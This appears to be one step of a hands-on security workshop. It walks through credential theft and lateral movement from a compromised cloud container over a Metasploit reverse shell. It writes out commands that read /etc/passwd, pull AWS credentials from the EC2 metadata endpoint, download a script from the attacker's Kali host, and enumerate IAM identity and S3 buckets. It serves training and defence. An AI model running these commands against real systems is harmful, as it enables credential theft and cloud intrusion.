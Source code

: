 # Lab 3: Credential Theft

With root access to the container, we will set out to achieve our main objectives, data exfiltration and lateral movement. E-Crime adversaries often prioritize credential theft as a revenue generation strategy. Credentials are sold on the dark web to assist other adversaries in establishing quick and stealthy access to specific target organizations. In general though, credential access is a way to establish persistence and widen the attack.

With reverse shell root access, we can run a couple of simple commands starting with a list of local passwords.

```shell
cat /etc/passwd
```

Next, we’ll try to access EC2 instance metadata to try to capture AWS service credentials.

```shell
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.

![Contents of /etc/passwd and instance metadata](lab3-1.png)

**Lateral Movement**

We will continue our attack by downloading some additional scripts that we can use to gather more information from the compromised container.

> [!NOTE]
> Using the netstat utility, you can easily find the Kali public IP by listing established HTTPS connections originating from the container.

List established outbound connections to port 443 (HTTPS)

```shell
netstat -n | grep 443
```

![Netstat output](lab3-2.png)

_The public IP in the fifth column is the Kali IP. Strip the “:443” socket port._

_Use the Kali’s public IP stored earlier or from the netstat command above, and download the collection.sh script_

```shell
wget http://<<Kali Public IP>>/collection.sh
```

![Download the collection script](lab3-3.png)

Having gained an initial foothold in the network, attackers will then attempt to perform privilege escalation in order to move laterally to find more valuable assets.

_Further reading: You can learn about different AWS privilege escalation methods at_ https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/ .

We can begin to determine which other AWS services and infrastructure we can access via the AWS API by examining the IAM identity associated with the compromised container. Earlier, we speculated that AWS cli tools might be installed on the container which is not a recommended practice. We can confirm that.

Identify the AWS identity principal attached to the container

```shell
aws sts get-caller-identity
```

![Discover the identity principal](lab3-4.png)

In the IAM role (shown in the “Arn” field) we have a clue about which services we are allowed to access (i.e., “Pod S3 Access”).

Confirm access to S3 by listing the buckets

```shell
aws s3 ls
```

![Listing S3 contents](lab3-5.png)

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.
